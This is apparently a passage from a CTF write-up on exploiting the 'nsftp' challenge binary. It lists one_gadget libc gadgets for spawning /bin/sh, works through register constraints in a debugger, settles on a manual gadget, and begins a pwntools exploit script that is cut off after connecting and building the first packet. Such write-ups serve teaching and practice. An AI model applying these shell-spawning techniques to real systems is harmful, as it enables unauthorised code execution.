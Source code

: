 Running `one_gadget` on the libc results in 3 gadgets:
```
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Setting that breakpoint before the function pointer call like I did earlier, I examined the state of the registers at the time right before our control of the program counter. 

![](https://i.imgur.com/JCrijyO.png)

r12 is not NULL so that rules out the first gadget.
rsi is not NULL so that rules out the last gadget.

Both r12 and rdx are NULL so it appears the second gadget will work.

Unfortunately, after stepping through that one gadget, execution breaks at the following instruction:

![](https://i.imgur.com/AXy3fqs.png)

This gadget requires rbp to be a valid pointer so we can't use this gadget. 

So like always, `one_gadget` fails, I have to turn to finding a useful gadget manually.

Opening the libc up in binaryninja and looking at all the references to the string `/bin/sh`, I found a gadget to loads the string into rdi and sets rsi from r15.

![](https://i.imgur.com/nWTiUhs.png)

rdx is alread NULL at the time so we have everything we need.

Using the gadget at `0xe6c81`, we finally pop a shell

## Final exploit
```python
from pwn import *
context.binary = elf = ELF("./nsftp")
def make_pkt(opcode,data):
	pkt = b""
	pkt+= opcode
	pkt+= b"\x00"
	pkt+= b"\x00"*7
	pkt+= bytes([len(data)])
	pkt+= data
	pkt_len = len(pkt)
	l = list(pkt)
	l[1] = pkt_len
	pkt = bytes(l)
	return pkt
io = remote("umbccd.io",4300)
#io = remote("127.0.0.1",1337)
io.readuntil(b"v0.1")
header_pkt = make_pkt(b"\x02",b"gang-gang")

```